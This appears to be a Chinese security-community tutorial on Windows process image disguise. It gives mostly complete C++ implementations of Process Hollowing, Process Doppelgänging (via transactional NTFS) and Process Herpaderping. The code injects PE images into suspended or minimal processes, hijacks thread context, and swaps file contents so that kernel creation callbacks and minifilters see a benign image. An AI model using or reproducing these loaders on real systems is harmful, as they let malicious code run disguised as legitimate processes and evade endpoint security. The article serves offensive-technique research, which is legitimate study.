# 进程映像伪装常见手法-先知社区

> **来源**: https://xz.aliyun.com/news/18608  
> **文章ID**: 18608

---

介绍映像伪装常见的几种手法

# 进程创建

在此之前我们先回头看一下windwos进程创建

`CreateProcess` 最终会调用`NtCreateUserProcess`

该函数做了大概如下的事

```
1. 检查参数 构建Process create context
2. 通过IoCreateFileEx open image
3. 通过MmCreateSpecialImageSection创建section
4. 通过PspCaptureProcessParameters复制参数
5. 通过PspAllocateProcess基于section创建进程 (创建EPROCESS peb 挂靠上去申请内存)
6. 通过PspAllocateThread创建线程
7. 通过PspInsertProcess与PspInsertThread插入对应链表
```

而`NtCreateProcessEx`则大概做了如下的事

```
1. 检查参数 调用PspCreateProcess
2. 调用PsCreateMinimalProcess 创建最小化进程
3. 通过PspAllocateProcess基于section创建进程 (创建EPROCESS peb 挂靠上去申请内存)
4. 通过PspInsertProcess插入对应链表
```

可以看见相较之下我们缺少了以下部分

```
1. 复制进程参数
2. 创建线程
```

那如果没有自己把这些实现了 使用`NtCreateProcessEx`创建的进程是跑不起来的

# Process Hollowing

进程镂空

整体流程如下

```
1. 创建挂起进程
2. 写入恶意PE文件
3. 线程劫持
4. 恢复线程
```

创建挂起进程

```
auto createSuspendProcess(LPWSTR cmdLine,PPROCESS_INFORMATION pi)-> void{
    STARTUPINFOW si = { sizeof(si) };
    HANDLE hProcess = NULL;
    
    if (!CreateProcess(NULL, cmdLine, NULL, NULL, TRUE, CREATE_SUSPENDED | CREATE_NEW_CONSOLE, NULL, NULL, &si, pi)) {
        std::cout << "CreateProcess failed with error: " << GetLastError() << std::endl;
        return;
    }


    return;
}

```

获取`PEB` 当然 由于最后要进行线程劫持 直接从RDX中拿PEB也行(RDX在线程创建时指向PEB)

```
auto GetRemoteProcessPEB (HANDLE hProcess, LPVOID* remotePebAddr)-> PPEB {
    PROCESS_BASIC_INFORMATION pbi;
    ULONG returnLength;

    if (NtQueryInformationProcess(hProcess, ProcessBasicInformation, &pbi, sizeof(pbi), &returnLength) == 0) {
        if(remotePebAddr) {
            *remotePebAddr = pbi.PebBaseAddress;
        }

        PPEB ppeb = (PPEB)malloc(sizeof(PEB));
        if (!ReadProcessMemory(hProcess, pbi.PebBaseAddress, ppeb, sizeof(PEB), NULL)) {
            return NULL;
        }
        return ppeb;
    }

    return NULL;
}
```

写入恶意PE文件 这里直接从本地读了

```
    LPVOID buf = NULL;
    DWORD bytesWritten = 0;
    readFileFromDisk(L"C:\Windows\System32\calc.exe", &buf, &bytesWritten);


    auto pDosHeader = (PIMAGE_DOS_HEADER)buf;
    auto pNtHeader = (PIMAGE_NT_HEADERS)((DWORD_PTR)buf + pDosHeader->e_lfanew);
    DWORD size = pNtHeader->OptionalHeader.SizeOfImage;

    PPEB remotePeb = GetRemoteProcessPEB(pi.hProcess);
    
    NtUnmapViewOfSection(pi.hProcess, remotePeb->ImageBaseAddress);

    LPVOID lpBase = VirtualAllocEx(pi.hProcess, remotePeb->ImageBaseAddress, size, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    
    if (!WriteProcessMemory(pi.hProcess, lpBase, buf, pNtHeader->OptionalHeader.SizeOfHeaders, NULL)) {
        std::cout << "Failed to write PE headers: " << GetLastError() << std::endl;
        return FALSE;
    }

    auto pSectionHeader = IMAGE_FIRST_SECTION(pNtHeader);
    for (int i = 0; i < pNtHeader->FileHeader.NumberOfSections; i++) {
        LPVOID dest = (LPVOID)((DWORD_PTR)lpBase + pSectionHeader[i].VirtualAddress);
        LPVOID src = (LPVOID)((DWORD_PTR)buf + pSectionHeader[i].PointerToRawData);
        SIZE_T sectionBytesWritten = 0;

        if (!WriteProcessMemory(pi.hProcess, dest, src, pSectionHeader[i].SizeOfRawData, &sectionBytesWritten) ||
            sectionBytesWritten != pSectionHeader[i].SizeOfRawData) {
            std::cout << "WriteProcessMemory failed for section " << i << " with error: " << GetLastError() << std::endl;
            return FALSE;
        }
    }
```

线程劫持恢复运行

```
    CONTEXT ctx = { 0 };
    ctx.ContextFlags = CONTEXT_FULL;

    if (!GetThreadContext(pi.hThread, &ctx)) {
        std::cout << "GetThreadContext failed: " << GetLastError() << std::endl;
        return FALSE;
    }

    DWORD_PTR entryPoint = (DWORD_PTR)lpBase + pNtHeader->OptionalHeader.AddressOfEntryPoint;

#ifdef _WIN64
    ctx.Rcx = entryPoint;
#else
    ctx.Eax = entryPoint;
#endif

    if (!SetThreadContext(pi.hThread, &ctx)) {
        std::cout << "SetThreadContext failed: " << GetLastError() << std::endl;
        return FALSE;
    }

    ResumeThread(pi.hThread);
```

## 优化

我们完全可以不去unmap原始映像 直接修改remotePEB的`ImageBaseAddress`即可

```
auto ProcessHollowing2(PROCESS_INFORMATION pi) -> BOOLEAN {
    LPVOID buf = NULL;
    DWORD bytesWritten = 0;
    readFileFromDisk(L"C:\Windows\System32\calc.exe", &buf, &bytesWritten);

    auto pDosHeader = (PIMAGE_DOS_HEADER)buf;
    auto pNtHeader = (PIMAGE_NT_HEADERS)((DWORD_PTR)buf + pDosHeader->e_lfanew);
    DWORD size = pNtHeader->OptionalHeader.SizeOfImage;
    LPVOID remotePebAddr = NULL;
    PPEB remotePeb = GetRemoteProcessPEB(pi.hProcess,&remotePebAddr);

    LPVOID lpBase = VirtualAllocEx(pi.hProcess, NULL, size, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    // patch ImageBaseAddress 
    LPVOID targetAddr = (LPVOID)((DWORD_PTR)remotePebAddr + FIELD_OFFSET(PEB, ImageBaseAddress));
    if (!WriteProcessMemory(pi.hProcess, targetAddr, &lpBase, sizeof(LPVOID), NULL)) {
        std::cout << "Failed to patch PEB: " << GetLastError() << std::endl;
        return FALSE;
    }


    if (!WriteProcessMemory(pi.hProcess, lpBase, buf, pNtHeader->OptionalHeader.SizeOfHeaders, NULL)) {
        std::cout << "Failed to write PE headers: " << GetLastError() << std::endl;
        return FALSE;
    }

    auto pSectionHeader = IMAGE_FIRST_SECTION(pNtHeader);
    for (int i = 0; i < pNtHeader->FileHeader.NumberOfSections; i++) {
        LPVOID dest = (LPVOID)((DWORD_PTR)lpBase + pSectionHeader[i].VirtualAddress);
        LPVOID src = (LPVOID)((DWORD_PTR)buf + pSectionHeader[i].PointerToRawData);
        SIZE_T sectionBytesWritten = 0;

        if (!WriteProcessMemory(pi.hProcess, dest, src, pSectionHeader[i].SizeOfRawData, &sectionBytesWritten) ||
            sectionBytesWritten != pSectionHeader[i].SizeOfRawData) {
            std::cout << "WriteProcessMemory failed for section " << i << " with error: " << GetLastError() << std::endl;
            return FALSE;
        }
    }


    CONTEXT ctx = { 0 };
    ctx.ContextFlags = CONTEXT_FULL;

    if (!GetThreadContext(pi.hThread, &ctx)) {
        std::cout << "GetThreadContext failed: " << GetLastError() << std::endl;
        return FALSE;
    }

    DWORD_PTR entryPoint = (DWORD_PTR)lpBase + pNtHeader->OptionalHeader.AddressOfEntryPoint;

#ifdef _WIN64
    ctx.Rcx = entryPoint;
#else
    ctx.Eax = entryPoint;
#endif

    if (!SetThreadContext(pi.hThread, &ctx)) {
        std::cout << "SetThreadContext failed: " << GetLastError() << std::endl;
        return FALSE;
    }

    ResumeThread(pi.hThread);

    return TRUE;
}
```

还有可以优化的地方就是节的权限按需求来修复 不要全RWX

更进一步的 如果检测了我们线程的`ETHREAD.StartAddress`的VadType是否是VadImageMap 此时可以考虑不去申请private的内存 unmap后remap

# Process Doppelgänging

该技术的前置知识是`Transactional NTFS`

也就是所谓的`TxF`

## TXF

即NTFS上的事务机制 TxF使应用程序能够轻松地保护文件更新操作免受系统或应用程序故障的影响

首先通过`CreateTransaction`创建事务

操作完了`CommitTransaction`或`RollbackTransaction`

对应的文件操作的API以Transacted结尾

在CommitTransaction之前文件是不可见的 改变之会发生在事务的上下文中

## Doppelgänging

Doppelgänging的整体流程如下

1. 创建事务 打开文件 往里写payload
2. 创建section 回滚事务
3. 通过`NtCreateProcessEx`创建进程
4. 填充进程参数 创建线程

首先 1 2 拿到Section的句柄

```
auto genSection(LPVOID payload, ULONG64 payloadSize, PHANDLE pHSection) -> BOOLEAN {

    HANDLE hTransaction = CreateTransaction(NULL, NULL, NULL, NULL, NULL, NULL, NULL);
    if (hTransaction == INVALID_HANDLE_VALUE) {
        std::cout << "Failed to create transaction: " << GetLastError() << "
";
        return FALSE;
    }

    wchar_t tempPath[MAX_PATH];
    wchar_t randomName[MAX_PATH];
    GetTempPath(MAX_PATH, tempPath);
    GetTempFileName(tempPath, L"TXN", 0, randomName);
    HANDLE hFile1 = CreateFileTransacted(randomName, GENERIC_WRITE, FILE_SHARE_READ, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL, hTransaction, NULL, NULL);
    if (hFile1 == INVALID_HANDLE_VALUE) {
        std::cout << "Failed to create file: " << GetLastError() << "
";
        CloseHandle(hTransaction);
        return FALSE;
    }
    DWORD bytesWritten = 0;
    if (!WriteFile(hFile1, payload, payloadSize, &bytesWritten, NULL)) {
        std::cout << "Failed to write to file: " << GetLastError() << "
";
        CloseHandle(hFile1);
        CloseHandle(hTransaction);
        return FALSE;
    }

    CloseHandle(hFile1);
    HANDLE hFile2 = CreateFileTransacted(randomName, GENERIC_READ, FILE_SHARE_WRITE, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL, hTransaction, NULL, NULL);
    if (hFile2 == INVALID_HANDLE_VALUE) {
        std::cout << "Failed to open file: " << GetLastError() << "
";
        CloseHandle(hTransaction);
        return FALSE;
    }

    pNtCreateSection NtCreateSection  = (pNtCreateSection)GetProcAddress(GetModuleHandle(L"ntdll.dll"), "NtCreateSection");

    NTSTATUS status = NtCreateSection(pHSection, SECTION_MAP_EXECUTE, NULL, 0, PAGE_READONLY, SEC_IMAGE, hFile2);
    if (!NT_SUCCESS(status)) {
        std::cout << "NtCreateSection failed with status: " << status << "
";
        CloseHandle(hFile2);
        CloseHandle(hTransaction);
        return FALSE;
    }

    if (!RollbackTransaction(hTransaction)) {
        std::cout << "RollbackTransaction failed with error: " << GetLastError() << "
";
        CloseHandle(hFile2);
        CloseHandle(hTransaction);
        return FALSE;
    }

    CloseHandle(hFile2);
    CloseHandle(hTransaction);
    return TRUE;

}
```

通过Section创建进程 这里使用了`NtCreateProcessEx`创建最小化进程 这也就是为什么我们需要手动填充进程参数和创建线程

```
pNtCreateProcessEx NtCreateProcessEx = (pNtCreateProcessEx)GetProcAddress(GetModuleHandle(L"ntdll.dll"), "NtCreateProcessEx");

NTSTATUS status = NtCreateProcessEx(pHProcess, PROCESS_ALL_ACCESS, NULL, (HANDLE)-1, PROCESS_CREATE_FLAGS_INHERIT_HANDLES, hSection, NULL, NULL, FALSE );

if (!NT_SUCCESS(status)) {
    std::cout << "[-] NtCreateProcessEx failed with status: " << status << "
";
    return FALSE;
}
```

填充进程参数

```
auto setupParameters(HANDLE hProcess,LPWSTR targetPath, PROCESS_BASIC_INFORMATION& pbi) {

    UNICODE_STRING uniTargetPath = { 0 };
    pRtlInitUnicodeString RtlInitUnicodeString = (pRtlInitUnicodeString)GetProcAddress(GetModuleHandle(L"ntdll.dll"), "RtlInitUnicodeString");\
    RtlInitUnicodeString(&uniTargetPath, targetPath);

    UNICODE_STRING uniDllDir = { 0 };
    RtlInitUnicodeString(&uniDllDir, L"C:\Windows\System32");


    pRtlCreateProcessParametersEx RtlCreateProcessParametersEx = (pRtlCreateProcessParametersEx)GetProcAddress(GetModuleHandle(L"ntdll.dll"), "RtlCreateProcessParametersEx");
    PRTL_USER_PROCESS_PARAMETERS params = NULL;

    NTSTATUS status = RtlCreateProcessParametersEx(&params,&uniTargetPath,&uniDllDir,NULL,&uniTargetPath,NULL,NULL,NULL,NULL,NULL,RTL_USER_PROC_PARAMS_NORMALIZED);

    if (!NT_SUCCESS(status)) {
        std::cout << "[+]RtlCreateProcessParametersEx failed: "<< std::hex << GetLastError() << std::endl;
        return false;
    }

    SIZE_T size = params->EnvironmentSize + params->MaximumLength ;
    LPVOID lpMem = params;

    pNtAllocateVirtualMemory NtAllocateVirtualMemory = (pNtAllocateVirtualMemory)GetProcAddress(GetModuleHandle(L"ntdll.dll"), "NtAllocateVirtualMemory");
    status = NtAllocateVirtualMemory(hProcess, &lpMem, 0, &size, MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE);


    pNtWriteVirtualMemory NtWriteVirtualMemory = (pNtWriteVirtualMemory)GetProcAddress(GetModuleHandle(L"ntdll.dll"), "NtWriteVirtualMemory");
    size = 0;
    status = NtWriteVirtualMemory(hProcess,params,params,params->EnvironmentSize + params->MaximumLength,&size);
    
    PPEB ppeb = pbi.PebBaseAddress;

    size = 0;
    status = NtWriteVirtualMemory(hProcess, &ppeb->ProcessParameters, &params, sizeof(LPVOID), &size);
    if(!NT_SUCCESS(status)) {
        std::cout << "[+] NtWriteVirtualMemory failed: " << std::hex << GetLastError() << std::endl;
        return false;
    }


    return true;


}


...
    
    
    pNtQueryInformationProcess NtQueryInformationProcess = (pNtQueryInformationProcess)GetProcAddress(GetModuleHandle(L"ntdll.dll"), "NtQueryInformationProcess");
    PROCESS_BASIC_INFORMATION pbi = {0};

    NtQueryInformationProcess(*pHProcess, ProcessBasicInformation, &pbi, sizeof(PROCESS_BASIC_INFORMATION), NULL);

    ULONG64 entry = getEntry(*pHProcess, &pbi, buf);

    setupParameters(*pHProcess, targetPath, pbi);    
```

创建线程

```
    pNtCreateThreadEx NtCreateThreadEx = (pNtCreateThreadEx)GetProcAddress(GetModuleHandle(L"ntdll.dll"), "NtCreateThreadEx");

    HANDLE hThread = NULL;
    status = NtCreateThreadEx(&hThread,THREAD_ALL_ACCESS,NULL,*pHProcess,(PUSER_THREAD_START_ROUTINE)entry,NULL,FALSE,0,0,0,NULL);
```



你会发现一堆N/A 且name为空 一眼异常文件

上面的代码参考 <https://github.com/hasherezade/process_doppelganging> 实现

你可以发现在`genSection`部分是自行创建了一个临时文件而非直接打开的白文件 这个和原作者描述的还是不同的

导致这种情况的是因为使用了临时文件吗?

我们尝试修改为直接打开白文件的

```
auto genSection(LPVOID payload, ULONG payloadSize, PHANDLE pHSection, LPWSTR sacrificePath) -> BOOLEAN {

    HANDLE hTransaction = CreateTransaction(NULL, NULL, NULL, NULL, NULL, NULL, NULL);
    if (hTransaction == INVALID_HANDLE_VALUE) {
        std::cout << "[-] Failed to create transaction: " << GetLastError() << std::endl;
        return FALSE;
    }


    HANDLE hFile = CreateFileTransacted(sacrificePath, GENERIC_WRITE|GENERIC_READ, NULL, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL, hTransaction, NULL, NULL);
    if (hFile == INVALID_HANDLE_VALUE) {
        std::cout << "[-] Failed to create file: " << GetLastError() << std::endl;
        CloseHandle(hTransaction);
        return FALSE;
    }
    DWORD bytesWritten = 0;
    if (!WriteFile(hFile, payload, payloadSize, &bytesWritten, NULL)) {
        std::cout << "[-] Failed to write to file: " << GetLastError() << std::endl;
        CloseHandle(hFile);
        CloseHandle(hTransaction);
        return FALSE;
    }

    
    pNtCreateSection NtCreateSection  = (pNtCreateSection)GetProcAddress(GetModuleHandle(L"ntdll.dll"), "NtCreateSection");

    NTSTATUS status = NtCreateSection(pHSection, SECTION_MAP_EXECUTE, NULL, 0, PAGE_READONLY, SEC_IMAGE, hFile);
    if (!NT_SUCCESS(status)) {
        std::cout << "[-] NtCreateSection failed with status: " << status << "
";
        CloseHandle(hTransaction);
        return FALSE;
    }

    if (!RollbackTransaction(hTransaction)) {
        std::cout << "[-] RollbackTransaction failed with error: " << GetLastError() << std::endl;
        CloseHandle(hTransaction);
        return FALSE;
    }

    CloseHandle(hTransaction);
    return TRUE;

}
```

状况依旧

问题实际出现在`RollbackTransaction`的时机 只要我们最后rollback就没事了

```
auto ProcessDoppelganging(LPWSTR sacrificePath, LPWSTR targetPath) {
    LPVOID buf = NULL;
    DWORD bytesWritten = 0;
    readFileFromDisk(targetPath, &buf, &bytesWritten);
    HANDLE hSection = NULL;
    HANDLE hProcess = NULL;


    HANDLE hTransaction = NULL;
    if (genSection(buf, bytesWritten, &hSection, sacrificePath,&hTransaction)) {
        std::cout << "[+] Section created successfully" << std::endl;


        createProcessAndThread(hSection, &hProcess, buf, sacrificePath);
        if (!RollbackTransaction(hTransaction)) {
            std::cout << "[-] RollbackTransaction failed with error: " << GetLastError() << std::endl;
            CloseHandle(hTransaction);
            return FALSE;
        }
    }


}
```



值得注意的是如果尝试以`GENERIC_WRITE`等权限打开`C:\Windows\` `C:\Windows\System32` 等目录下的文件 会返回`0xC0000022`

# Process Herpaderping

同样利用了`NtCreateThreadEx`从Section创建

过程如下

```
1. 写paylaod到文件
2. 获取section 创建进程
3. 修改文件内容
4. 创建线程 CloseHandle
```

其核心就是规避了内核进程创建回调`PsSetCreateProcessNotifyRoutineEx`

该回调的触发时机在初始线程创建时调用 也就是说通过`NtCreateProcessEx`创建的进程不会触发回调

后续修改了文件内容再创建线程 此时回调检测到的就是修改后的文件 而Minifilter普遍用`IRP_MJ_CLEANUP`来监控文件写入 在CloseFile之前都不会触发`IRP_MJ_CLEANUP`对应的回调 也就是说在此情况下Minifilter检测到的也是修改后的文件

我们随便找个回调下断看调用堆栈



代码实现如下

```
auto readFileFromDisk(LPCWSTR filePath, LPVOID* buf, PDWORD bytesWritten) -> void {
    HANDLE hFile = NULL;
    hFile = CreateFile(filePath, FILE_READ_ACCESS, NULL, NULL, OPEN_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
    if (hFile != INVALID_HANDLE_VALUE) {
        DWORD fileSize = GetFileSize(hFile, NULL);
        if (fileSize == INVALID_FILE_SIZE) {
            std::cout << "GetFileSize failed with error: " << GetLastError() << std::endl;
            CloseHandle(hFile);
            return;
        }

        *buf = VirtualAlloc(NULL, fileSize, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
        if (*buf == NULL) {
            std::cout << "VirtualAlloc failed with error: " << GetLastError() << std::endl;
            CloseHandle(hFile);
            return;
        }

        if (!ReadFile(hFile, *buf, fileSize, bytesWritten, NULL)) {
            std::cout << "ReadFile failed with error: " << GetLastError() << std::endl;
            VirtualFree(*buf, 0, MEM_RELEASE);
            CloseHandle(hFile);
            return;
        }
    }
    else {
        std::cout << "CreateFile failed with error: " << GetLastError() << std::endl;
        return;
    }
}

auto writeAndGetFileHandle(PHANDLE pHfile, LPVOID buf, DWORD bytesWritten) -> bool{
    wchar_t tempPath[MAX_PATH];
    GetTempPathW(MAX_PATH, tempPath);
    std::wstring filePath = std::wstring(tempPath) + L"temp.exe";
    HANDLE hFile = CreateFile(filePath.c_str(), GENERIC_READ | GENERIC_WRITE, FILE_SHARE_READ | FILE_SHARE_WRITE, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
    if (hFile != INVALID_HANDLE_VALUE) {
        *pHfile = hFile;
        DWORD tmpBytesWritten = 0;
        WriteFile(hFile, buf, bytesWritten, &tmpBytesWritten, NULL);
        if (bytesWritten == tmpBytesWritten) return TRUE;
    }
    return FALSE;
}
auto genSection(HANDLE hFile, PHANDLE pHSection)->bool {
    pNtCreateSection NtCreateSection = (pNtCreateSection)GetProcAddress(GetModuleHandle(L"ntdll.dll"), "NtCreateSection");

    NTSTATUS status = NtCreateSection(pHSection, SECTION_MAP_EXECUTE, NULL, 0, PAGE_READONLY, SEC_IMAGE, hFile);
    if (!NT_SUCCESS(status)) {
        std::cout << "[-] NtCreateSection failed with status: " << status << "
";
        return FALSE;
    }
    return TRUE;
}

auto getEntry(HANDLE hProcess, PPROCESS_BASIC_INFORMATION ppbi, LPVOID buf) -> ULONG64 {

    PEB peb = { 0 };
    pNtReadVirtualMemory NtReadVirtualMemory = (pNtReadVirtualMemory)GetProcAddress(GetModuleHandle(L"ntdll.dll"), "NtReadVirtualMemory");
    NTSTATUS status = NtReadVirtualMemory(hProcess, ppbi->PebBaseAddress, &peb, sizeof(PEB), NULL);
    if (!NT_SUCCESS(status)) {
        std::cout << "[-] NtReadVirtualMemory failed with status: " << status << std::endl;
        return 0;
    }

    // 获取创建线程的ImageBaseAddress
    ULONG64 imageBase = (ULONG64)peb.ImageBaseAddress;
    PIMAGE_DOS_HEADER pDosHeader = (PIMAGE_DOS_HEADER)buf;
    PIMAGE_NT_HEADERS pNtHeaders = (PIMAGE_NT_HEADERS)((ULONG_PTR)buf + pDosHeader->e_lfanew);
    return pNtHeaders->OptionalHeader.AddressOfEntryPoint + imageBase;
}
auto setupParameters(HANDLE hProcess, LPWSTR targetPath, PROCESS_BASIC_INFORMATION& pbi) {

    UNICODE_STRING uniTargetPath = { 0 };
    pRtlInitUnicodeString RtlInitUnicodeString = (pRtlInitUnicodeString)GetProcAddress(GetModuleHandle(L"ntdll.dll"), "RtlInitUnicodeString"); \
        RtlInitUnicodeString(&uniTargetPath, targetPath);

    UNICODE_STRING uniDllDir = { 0 };
    RtlInitUnicodeString(&uniDllDir, L"C:\Windows\System32");


    pRtlCreateProcessParametersEx RtlCreateProcessParametersEx = (pRtlCreateProcessParametersEx)GetProcAddress(GetModuleHandle(L"ntdll.dll"), "RtlCreateProcessParametersEx");
    PRTL_USER_PROCESS_PARAMETERS params = NULL;

    NTSTATUS status = RtlCreateProcessParametersEx(&params, &uniTargetPath, &uniDllDir, NULL, &uniTargetPath, NULL, NULL, NULL, NULL, NULL, RTL_USER_PROC_PARAMS_NORMALIZED);

    if (!NT_SUCCESS(status)) {
        std::cout << "[+]RtlCreateProcessParametersEx failed: " << std::hex << GetLastError() << std::endl;
        return false;
    }

    SIZE_T size = params->EnvironmentSize + params->MaximumLength;
    LPVOID lpMem = params;

    pNtAllocateVirtualMemory NtAllocateVirtualMemory = (pNtAllocateVirtualMemory)GetProcAddress(GetModuleHandle(L"ntdll.dll"), "NtAllocateVirtualMemory");
    status = NtAllocateVirtualMemory(hProcess, &lpMem, 0, &size, MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE);


    pNtWriteVirtualMemory NtWriteVirtualMemory = (pNtWriteVirtualMemory)GetProcAddress(GetModuleHandle(L"ntdll.dll"), "NtWriteVirtualMemory");
    size = 0;
    status = NtWriteVirtualMemory(hProcess, params, params, params->EnvironmentSize + params->MaximumLength, &size);

    PPEB ppeb = pbi.PebBaseAddress;

    size = 0;
    status = NtWriteVirtualMemory(hProcess, &ppeb->ProcessParameters, &params, sizeof(LPVOID), &size);
    if (!NT_SUCCESS(status)) {
        std::cout << "[+] NtWriteVirtualMemory failed: " << std::hex << GetLastError() << std::endl;
        return false;
    }


    return true;


}
auto createProcess(HANDLE hSection, PHANDLE pHProcess, LPVOID buf, LPWSTR targetPath, PULONG64 entryPoint) {
    pNtCreateProcessEx NtCreateProcessEx = (pNtCreateProcessEx)GetProcAddress(GetModuleHandle(L"ntdll.dll"), "NtCreateProcessEx");

    NTSTATUS status = NtCreateProcessEx(pHProcess, PROCESS_ALL_ACCESS, NULL, (HANDLE)-1, PROCESS_CREATE_FLAGS_INHERIT_HANDLES, hSection, NULL, NULL, FALSE);

    if (!NT_SUCCESS(status)) {
        std::cout << "[-] NtCreateProcessEx failed with status: " << status << "
";
        return FALSE;
    }

    pNtQueryInformationProcess NtQueryInformationProcess = (pNtQueryInformationProcess)GetProcAddress(GetModuleHandle(L"ntdll.dll"), "NtQueryInformationProcess");
    PROCESS_BASIC_INFORMATION pbi = { 0 };

    NtQueryInformationProcess(*pHProcess, ProcessBasicInformation, &pbi, sizeof(PROCESS_BASIC_INFORMATION), NULL);

    ULONG64 entry = getEntry(*pHProcess, &pbi, buf);
    *entryPoint = entry;
    setupParameters(*pHProcess, targetPath, pbi);

    return TRUE;
}

auto obscureFIle(HANDLE hFile, LPWSTR obscurePath) {
    SetFilePointer(hFile, 0, NULL, FILE_BEGIN);

    LPVOID buf = NULL;
    DWORD bytesWritten = 0;
    HANDLE hTargetFile = NULL;
    readFileFromDisk(obscurePath, &buf, &bytesWritten);
    DWORD tmpBytesWritten = 0;
    WriteFile(hFile, buf, bytesWritten, &tmpBytesWritten, NULL);
    
    FlushFileBuffers(hFile);
    SetEndOfFile(hFile);
    if (bytesWritten == tmpBytesWritten) return TRUE;

    std::cout << "[-] WriteFile failed errCode: " << GetLastError() << std::endl;
    return FALSE;
    
}


auto ProcessHerpaderping(LPWSTR obscurePath,LPWSTR targetPath) {
    LPVOID buf = NULL;
    DWORD bytesWritten = 0;
    HANDLE hFile = NULL;
    HANDLE hSection = NULL;

    readFileFromDisk(targetPath, &buf, &bytesWritten); // malicious payload
    
    if (writeAndGetFileHandle(&hFile, buf, bytesWritten)) {
        if (!genSection(hFile, &hSection)) {
            std::cout << "[-] genSection failed" << std::endl;
            return -1;
        }
        HANDLE hProcess = NULL;


        ULONG64 entry = 0;
        createProcess(hSection, &hProcess, buf, obscurePath, &entry); // nslookup Section
        obscureFIle(hFile, obscurePath);
        

        pNtCreateThreadEx NtCreateThreadEx = (pNtCreateThreadEx)GetProcAddress(GetModuleHandle(L"ntdll.dll"), "NtCreateThreadEx");
        HANDLE hThread = NULL;
        NTSTATUS status = NtCreateThreadEx(&hThread, GENERIC_ALL, NULL, hProcess, (PUSER_THREAD_START_ROUTINE)entry, NULL, FALSE, 0, 0, 0, NULL);

        CloseHandle(hFile);

            
    }


}

int main(){
    ProcessHerpaderping(_wcsdup(L"C:\Windows\System32\
otepad.exe"), _wcsdup(L"C:\Windows\System32\
slookup.exe"));
}

```

